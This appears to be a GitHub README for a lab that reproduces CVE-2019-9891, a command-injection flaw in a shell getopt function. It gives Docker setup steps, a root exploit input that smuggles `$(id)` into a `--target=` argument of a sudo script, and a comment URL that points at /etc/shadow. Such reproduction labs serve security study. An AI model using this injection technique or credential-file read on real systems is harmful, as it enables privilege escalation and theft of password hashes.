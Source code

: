 # CVE-2019-9891

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9891>

## PoC / Exploit
* <https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-007/-code-execution-via-insecure-shell-function-getopt-simple>
 

## Environment used

* Ubuntu 18.04.4 LTS

## Reproduction 

* Server
    - Docker version
        ```shell script
        sudo docker build -t cve-2019-9891 . 
        sudo docker run -p8022:22 -it cve-2019-9891
        ```
      
    - Script version
        ```shell script
        sudo bash installation.sh 
        ```    
* Client
    ```shell script
    bash login.sh
    ```
  After login run `sudo /usr/local/sbin/cleanup.sh '--target=$(id)'` and you'll see the result of *id* command as root.  



[comment]: <> (https://localhost:10000/file/show.cgi/etc/shadow)